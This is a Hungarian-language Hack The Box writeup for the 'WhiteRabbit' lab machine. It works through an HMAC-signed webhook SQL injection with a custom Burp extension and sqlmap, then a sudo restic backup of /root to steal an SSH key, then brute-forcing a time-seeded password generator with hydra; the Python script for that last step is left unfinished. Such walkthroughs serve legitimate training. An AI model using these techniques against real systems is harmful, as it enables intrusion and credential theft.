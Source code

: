 
# HTB WhiteRabbit - Writeup (magyar)

**Platform:** Linux  

**IP:** 10.10.11.63

**Difficulty:** Insane  

**Author:** NoSec  


## Felderítés / Recon

```bash
22/tcp   open  ssh           OpenSSH 8.9p1 (protocol 2.0)
80/tcp   open  http          Caddy httpd
2222/tcp open  ssh           OpenSSH 8.9p1 (protocol 2.0)
```
Szolgáltatás infó: OS valószínűleg Linux-alapú, a Caddy webszerver fut.

---

## Előkészítés

- **Host fájl szerkesztése**
    ```bash
    sudo nano /etc/hosts
    ```
    ```
    10.10.11.XX     whiterabbit.htb status.whiterabbit.htb
    
- **Clock skew (időszinkron, ha szükséges)**
```bash
sudo rdate -n whiterabbit.htb
```

---

## Alközpontok és Web Feltárás

**Alközpontok felfedezése:**

A whiterabbit.htb alatti /status/ végpontot brute-force-olva (pl. gobuster,ffuf) megtaláltam a status.whiterabbit.htb-t, ami Uptime Kumát futtat. Egy kis kutakodás ([redacted URL] után a /status/temp/ oldalon új alközpontokat találtam:

- GoPhish: ddb0<link>.whiterabbit.htb
- Wikijs: a668<link>.whiterabbit.htb

**Webhookok nyomozása:**

A Wikijs endpoint ([redacted URL] egy webhookot mutatott az 28e<link>.whiterabbit.htb felé, ami gyanúsan nézett ki.

**Kihasználás / Exploitation**

SQLi a Webhookban

A webhook egy x-gophish-signature HMAC aláírást követelt. A titkos kulcsot innen szedtem ki:

Forrás: [redacted URL]
Kulcs: 3CWV<key>

Az HMAC-ot a CyberChef-fel generáltam ([redacted URL] és egy teszt payloaddal SQLi-t próbáltam:
```bash
{"campaign_id":2,"email":"test \$\"","message":"Clicked Link"}
```
Láttam egy MySQL hibát, szóval sebezhető!

**BurpSuite Automatizálás**

Manuálisan lassú volt, ezért egy Burp kiterjesztést intéztem, ami automatikusan hozzáadja az HMAC fejlécet:

```bash
from burp import IBurpExtender, ISessionHandlingAction
from java.io import PrintWriter
from datetime import datetime
import hashlib, hmac

class BurpExtender(IBurpExtender, ISessionHandlingAction):
    def registerExtenderCallbacks(self, callbacks):
        self._callbacks = callbacks
        self._helpers = callbacks.getHelpers()
        callbacks.setExtensionName("HMAC Header")
        PrintWriter(callbacks.getStdout(), True).println("HMAC Header OK")
        callbacks.registerSessionHandlingAction(self)
        PrintWriter(callbacks.getStdout(), True).println("Session started")
        return

    def getActionName(self):
        return "HMAC Header"

    def performAction(self, currentRequest, macroItems):
        Secret = "3CWV<redacted>"
        stdout = PrintWriter(self._callbacks.getStdout(), True)
        requestInfo = self._helpers.analyzeRequest(currentRequest)
        BodyBytes = currentRequest.getRequest()[requestInfo.getBodyOffset():]
        BodyStr = self._helpers.bytesToString(BodyBytes)
        _hmac = hmac.new(Secret, BodyStr, digestmod=hashlib.sha256).hexdigest()
        headers = requestInfo.getHeaders()
        headers.add("x-gophish-signature: sha256=" + _hmac)
        message = self._helpers.buildHttpMessage(headers, BodyStr)
        currentRequest.setRequest(message)
        return
```
Telepítve a Burp Custom Extensions-ben (https://www.pentestpartners.com/security-blog/burp-hmac-header-extensions-a-how-to/)

**SQLmap Támadás**

Az SQLi-t sqlmap-mel automatizáltam:

```bash
sqlmap -u [redacted URL] POST --data '{"campaign_id":2,"email":"test@mail.com","message":"Clicked Link"}' -p email --proxy [redacted URL] --batch --dump --Level=5 --risk=3 -D temp -T command_log --flush
```

| ID  | Dátum               | Parancs                                                |
|-----|---------------------|---------------------------------------------------------|
| 103 | 2024-08-30 14:40:41 | `uname -a`                                             |
| 110 | 2024-08-30 15:16:05 | `restic init --repo rest:[redacted URL] |

**Jogosultság Növelés / Privilege Escalation**

-Restic Kihasználása

Egy Restic tárolót találtam [redacted URL] jelszóval: ygcsv<redacted> Ezzel mentést csináltam a /root/-ról:

```bash
export RESTIC_PASSWORD=ygcsv<pass>
export RESTIC_REPOSITORY=rest:[redacted URL]
sudo /usr/bin/restic init -r .
sudo restic -r . backup /root/
sudo restic -r . dump latest /root/morpheus
```
Kinyertem egy SSH kulcsot a morpheus-hoz, így be tudtam lépni:

```bash
ssh morpheus@whiterabbit.htb -p 22
```

```bash
morpheus@whiterabbit:/home/morpheus# ls
user.txt

```
User flag pipa! 🚀

**Neo Jelszó Generálás**

A /opt/neo-password-generator/neopassword-generator binárist Ghidra-val néztem meg. A gettimeofday()-ot használja seedként:

 -Számítás: tv_sec * 1000 + tv_usec / 1000 
 -20 karakteres jelszót generál rand() % 62-vel.
 
Mivel a neo 2024-08-30 14:40:42-kor futtatta, a másodperceket tudom, de a mikromásodperceket bruteforce-olnom kellett (0-999). Egy Python szkriptet használtam:

```python
from ctypes import CDLL
import datetime
libc = CDLL("libc.so.6")
seconds = datetime.datetime(2024, 8, 30, 14, 40, 42, tzinfo=datetime.timezone.utc).timestamp()
for i in range(0, 1000):
    # [Itt a rand() logika lenne, C-vel pontosabb]
```
Legeneráltam és jöhetett az SSH bruteforece.

```bash
python3 password_generator.py > passwords.txt
```

```bash
hydra -l neo -P passwords.txt ssh://whiterabbit.htb -t 20
```

Jelszó:
```nginx
WB<pass>
```

Miután beléptünk SSh-n már csak egy sudo -su parancsot kell használnunk, és kezünkben a root flag


```bash
root@whiterabbit:~# ls
root.txt
```

---

### 🧠 Jegyzetek & Magyarázat – Mit tanultam a gépből?

- **Webhook & SQLi abuse:** Az Uptime Kuma sebezhetőségei izgalmasak voltak, főleg a custom HMAC trükközés miatt.  
- **Restic kihasználás:** Meglepő volt, hogy egy sima backup tool milyen mértékű jogosultságemelést tud biztosítani.  
- **Bináris analízis:** A `gettimeofday()` alapú jelszógenerálás bruteforce-olása kemény agytorna volt.  
- **Automatizálás:** A Burp Suite és sqlmap kombó rengeteg időt spórolt, főleg a HMAC headerrel való szórakozásnál.

---

### ⚠️ Hibák, csapdák, tanácsok

- **Időszinkronra figyelj!** Elcsúszott idő esetén az SSH vagy más lépések fail-elnek.  
- **Bruteforce-hoz türelem kell!** A `/status/temp/` endpointot sokáig kerestem – fontos a jó lista.  
- **Spoilermentesen dokumentálj!** Ne írj le mindent, más is élvezhesse a felfedezést.  
- **Tesztelj újra mindent!** Az HMAC kulcsot például kétszer validáltam, mielőtt sqlmap-et futtattam volna.

---

### ✅ Összegzés

A WhiteRabbit egy remekül összerakott gép: a webes kihasználásoktól egészen a kreatív jogosultság-eszkalációig visz.  
Az Uptime Kuma, SQLi, Restic és bináris analízis kombója igazi pentester csemege volt.  
Mindkét flag megszerezve – user is, root is – szóval elégedett vagyok. 🚀

---

**Ajánlom mindenkinek**, aki szereti a kihívásokat, és néha szívesebben törne kreatív Linuxos gépeket AD helyett.  
Ha kérdésed van: keress bátran! 💬

---


